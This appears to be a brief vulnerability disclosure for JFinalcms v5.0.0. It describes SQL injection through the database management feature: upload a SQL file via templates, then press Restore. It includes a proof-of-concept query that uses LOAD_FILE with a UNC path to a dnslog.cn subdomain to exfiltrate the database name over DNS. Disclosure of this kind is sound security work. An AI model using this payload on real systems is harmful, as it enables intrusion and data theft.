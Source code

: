 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0


SQL injection exists in the database management department


First, upload the SQL file through the template

![1](https://github.com/gchens/cms/assets/167584774/e5f5dc1e-6b8a-4c5a-8acf-09074e8f1325)



upload file

![2](https://github.com/gchens/cms/assets/167584774/2893e810-13f2-40ec-8953-3522a2ba5db3)



poc:

```
SELECT LOAD_FILE(CONCAT('\\\\',( SELECT DATABASE() ),'.zdkszf.dnslog.cn\\x'));
```

click Restore button 

![3](https://github.com/gchens/cms/assets/167584774/d555641a-024c-4eca-96c3-e2dc783e4cb5)



The data shows.

![4](https://github.com/gchens/cms/assets/167584774/02d9bef8-ed01-4c34-923b-2364bc87e243)
